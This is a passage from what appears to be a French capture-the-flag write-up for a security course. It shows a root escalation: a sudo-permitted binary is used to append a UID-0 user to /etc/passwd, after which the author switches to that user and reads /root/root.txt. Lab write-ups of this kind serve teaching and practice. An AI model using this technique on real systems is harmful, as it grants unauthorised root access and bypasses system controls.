 On ajoute ensuite l'utilisateur dans le fichier `/etc/passwd`.

```bash
echo "gougougaga:$pass:0:0:/root:/bin/bash" | sudo /usr/bin/squidgame -a /etc/passwd
```

![16](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/f2f602e3-70d0-4b6b-91b5-f0d0c58c5468)

On peut alors se connecter à l'utilisateur (la commande nous connecte à `root` car il possède le mêmme id).
 
```bash
su gougougaga
```

Une fois que nous avons les permissions d'accéder au dossier `/root` on peut alors lire le contenu du fichier `root.txt`

```bash
cat /root/root.txt
```

![17](https://github.com/EpitechMscProPromo2026/T-SEC-600-STG_11/assets/91117127/620ae4e9-eb02-4bbf-81f1-5a18b8583674)
